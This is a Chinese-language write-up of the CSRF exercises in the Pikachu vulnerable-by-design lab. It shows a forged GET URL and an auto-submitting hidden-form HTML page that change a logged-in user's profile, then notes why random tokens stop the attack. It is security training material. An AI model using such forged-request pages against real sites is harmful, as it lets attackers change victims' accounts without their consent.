



## CSRF(get) login

### 分析

不知道要干嘛，先根据提示登录进去

包里没看见上面特别之处 ~~除了用GET来传用户和密码~~


修改个人信息看看，给性别后面加个数字1，保存，这时候包里有问题了


发出去的数据没有验证用户之类的操作，感觉可以直接通过发包去改信息


### 利用

构造 URL ，尝试把性别该回去 boy

```
http://localhost/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=13676765545&add=nba+hs&email=grady%40pikachu.com&submit=submi
```

直接访问，成功




## CSRF(post)

### 分析

登录进来看包，暂时没有可利用的地方

s


一样，改个人信息，看包，能利用




### 利用

构造一个假的链接放在服务器上，诱惑用户点击

```html
<html>
    <script>
        window.onload = function() {
        document.getElementById("submit").click();
        }
    </script> 
    <body>
            <form action="http://localhost/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">    
                <input type="hidden" name="sex" value="boy" />
                <input type="hidden" name="phonenum" value="13676765545" />
                <input type="hidden" name="add" value="nba hs" />
                <input type="hidden" name="email" value="grady@pikachu.com" />
                <input type="hidden" name="submit" value="submit" />
	            <input id="submit" type="submit" value="Submit request" style="display:none"/>
            </form>
    </body>
</html> 
```


模拟访问 `http://localhost/pikachu-master/vul/csrf/csrfpost/post_attack.html` ，搞定，boy2 被改回来了




## CSRF Token

### 分析

粗略分析了下，每次都是新 Token

Token是随机的，也就无法伪 URL 了

~~不过感觉理论上是可以爆破的就是，前面爆破写过，可参考前面的文章~~


## 常见问题

**CSRF (*) 报错** 

```
Warning: Use of undefined constant MYSQL_ASSOC - assumed 'MYSQL_ASSOC' (this will throw an Error in a future version of PHP) in D:\ProgramOthers\phpstudy_pro\WWW\pikachu-master\vul\csrf\csrfget\csrf_get_edit.php on line 70

Warning: mysqli_fetch_array() expects parameter 2 to be int, string given in D:\ProgramOthers\phpstudy_pro\WWW\pikachu-master\vul\csrf\csrfget\csrf_get_edit.php on line 70
```

猜想系MYSQL语法变更导致，找到对应目录，将 MYSQL_ASSOC 改为 MYSQLI_ASSOC即可

